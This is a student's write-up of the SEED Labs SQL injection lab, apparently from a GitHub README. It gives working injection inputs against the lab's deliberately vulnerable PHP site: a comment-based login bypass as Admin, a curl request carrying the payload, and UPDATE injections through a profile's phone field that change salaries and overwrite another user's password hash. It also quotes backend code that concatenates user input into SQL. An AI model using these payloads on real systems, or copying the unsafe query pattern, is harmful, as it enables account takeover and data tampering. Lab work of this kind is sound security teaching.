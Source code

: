 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code

		mysql -u root -pseedubuntu
    
		mysql> use Users;
    
		mysql> show tables;
    
	Use such a SQL query:
  
//code

		select * from credential where Name='Alice';

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code

		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
		FROM credential
    
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

	INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
	After row inserted, go to browser and input as:
  
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
	.PASSWORD: "" (blank field)

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code

	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!='')
  
  {// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
	//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
	// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

![Untitled](Pics/task3.3.png)

